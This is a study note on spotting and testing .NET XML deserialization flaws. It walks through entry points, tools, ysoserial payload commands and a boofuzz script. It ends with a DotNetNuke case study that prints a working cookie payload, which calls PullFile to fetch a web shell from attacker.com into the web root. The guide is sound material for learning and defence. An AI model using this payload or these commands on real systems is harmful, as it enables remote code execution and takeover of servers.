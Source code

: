 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/deserialization-net/xml-deserialization-vulnerabilities/","noteIcon":"","created":"2025-04-15T14:11:19.602-04:00"}
---
```


















## How to Spot XML Serialization/Deserialization 


Vulnerabilities

### 1. **Understand Serialization Basics**
   - **Serialization Example**:
     ```csharp
     MyClass obj = new MyClass();
     XmlSerializer serializer = new XmlSerializer(typeof(MyClass));
     using (StreamWriter writer = new StreamWriter("file.xml"))
     {
         serializer.Serialize(writer, obj);
     }
     ```
   - **Deserialization Example**:
     ```csharp
     XmlSerializer serializer = new XmlSerializer(typeof(MyClass));
     using (StreamReader reader = new StreamReader("file.xml"))
     {
         MyClass obj = (MyClass)serializer.Deserialize(reader);
     }
     ```

### 2. **Identify Entry Points for Deserialization**
   - **Cookies**:
     ```csharp
     string cookieValue = Request.Cookies["DNNPersonalization"].Value;
     var deserializedObject = DeserializeObject(cookieValue);
     ```
   - **Form Fields**:
     ```csharp
     string formData = Request.Form["serializedData"];
     var deserializedObject = DeserializeObject(formData);
     ```
   - **API Endpoints**:
     ```csharp
     [HttpPost]
     public IActionResult DeserializeData([FromBody] string data)
     {
         var deserializedObject = DeserializeObject(data);
         return Ok();
     }
     ```

### 3. **Review Code for Deserialization Functions**
   - **.NET Specific**:
     ```csharp
     XmlSerializer serializer = new XmlSerializer(typeof(MyClass));
     using (StreamReader reader = new StreamReader("file.xml"))
     {
         MyClass obj = (MyClass)serializer.Deserialize(reader);
     }
     ```
   - **Other Languages**:
     - **Java**:
       ```java
       ObjectInputStream ois = new ObjectInputStream(new FileInputStream("file.ser"));
       MyClass obj = (MyClass) ois.readObject();
       ois.close();
       ```
     - **Python**:
       ```python
       import pickle
       with open('file.pkl', 'rb') as f:
           obj = pickle.load(f)
       ```
     - **PHP**:
       ```php
       $obj = unserialize($serializedData);
       ```

### 4. **Assess the Safety of Deserialization**
   - **Trusted Source Check**:
     ```csharp
     if (IsTrustedSource(data))
     {
         var obj = DeserializeObject(data);
     }
     ```
   - **Validation/Sanitization**:
     ```csharp
     if (ValidateData(data))
     {
         var obj = DeserializeObject(data);
     }
     ```

### 5. **Understand Common Vulnerable Patterns**
   - **Insecure Deserialization**:
     ```csharp
     XmlSerializer serializer = new XmlSerializer(typeof(MyClass));
     using (StreamReader reader = new StreamReader("file.xml"))
     {
         MyClass obj = (MyClass)serializer.Deserialize(reader);
     }
     ```
   - **Gadgets**: Gadgets are pieces of code that can be used during deserialization to perform malicious actions. They are often found in libraries that the application uses.

### 6. **Use Static and Dynamic Analysis Tools**
   - **Static Code Analysis**:
     - **SonarQube**: Configure SonarQube to scan your codebase for deserialization patterns.
   - **Dynamic Analysis**:
     - **Burp Suite**: Intercept and modify serialized data in real-time.
     ```python
     import requests
     url = 'http://example.com/api/endpoint'
     payload = {'data': '<serialized_data>'}
     r = requests.post(url, data=payload)
     print(r.text)
     ```

### 7. **Test for Vulnerabilities**
   - **Proof of Concept (PoC)**:
     - **ysoserial.net**: Generate payloads for .NET deserialization.
     ```bash
     ysoserial.exe -o base64 -g ObjectDataProvider -f "calc"
     ```
   - **Automated Tools**:
     - **ysoserial** for Java:
       ```bash
       java -jar ysoserial.jar CommonsCollections1 "calc.exe" > payload.ser
       ```

### 8. **Perform Security Testing on Deserialization Code**
   - **Fuzzing**:
     - Use a tool like **Burp Intruder** to send malformed serialized data.
     ```python
     from boofuzz import *
     session = Session(
         target=Target(
             connection=SocketConnection("192.168.1.1", 9999, proto='tcp')
         ),
     )
     s_initialize("Request")
     s_static("GET /")
     s_string("fuzzdata")
     session.connect(s_get("Request"))
     session.fuzz()
     ```
   - **Review Dependencies**:
     - Check for third-party libraries with known vulnerabilities using tools like **Retire.js** or **Snyk**.

### 9. **Common Indicators of Vulnerability**
   - **Untrusted Data Sources**: Deserialization of data from cookies, user inputs, or external files without validation.
   - **Absence of Validation**:
     ```csharp
     XmlSerializer serializer = new XmlSerializer(typeof(MyClass));
     using (StreamReader reader = new StreamReader("file.xml"))
     {
         MyClass obj = (MyClass)serializer.Deserialize(reader);
     }
     ```
   - **Dynamic Type Handling**:
     ```csharp
     Type type = Type.GetType(typeName);
     XmlSerializer serializer = new XmlSerializer(type);
     var obj = serializer.Deserialize(reader);
     ```
   - **Public Properties and Fields**:
     ```csharp
     public class MyClass
     {
         public string Name { get; set; }
         public int Age { get; set; }
     }
     ```

### 10. **Practical Example: DotNetNuke Case Study**
   - **Identify the Entry Point**: The `LoadProfile` function in DotNetNuke.
     ```csharp
     string cookieValue = Request.Cookies["DNNPersonalization"].Value;
     var deserializedObject = DeserializeObject(cookieValue);
     ```
   - **Understand the Deserialization Flow**:
     ```csharp
     public Hashtable LoadProfile()
     {
         string data = Request.Cookies["DNNPersonalization"].Value;
         return DeserializeHashTableXml(data, "profile");
     }

     public Hashtable DeserializeHashTableXml(string data, string rootName)
     {
         Hashtable hashtable;
         using (StringReader stringReader = new StringReader(data))
         {
             XmlSerializer xmlSerializer = new XmlSerializer(typeof(Hashtable), new XmlRootAttribute(rootName));
             hashtable = (Hashtable)xmlSerializer.Deserialize(stringReader);
         }
         return hashtable;
     }
     ```
   - **Assess the Payload**: Determine how a crafted payload can manipulate the deserialization process to execute arbitrary code.
     ```xml
     <profile>
         <item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
             <ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
                 <ProjectedProperty0>
                     <ObjectInstance xsi:type="FileSystemUtils" />
                     <MethodName>PullFile</MethodName>
                     <MethodParameters>
                         <anyType xsi:type="xsd:string">http://attacker.com/shell.aspx</anyType>
                         <anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/shell.aspx</anyType>
                     </MethodParameters>
                 </ProjectedProperty0>
             </ExpandedWrapperOfFileSystemUtilsObjectDataProvider>
         </item>
     </profile>
     ```

By following these examples and focusing on specific patterns, you can effectively spot and test for XML serialization/deserialization vulnerabilities in applications.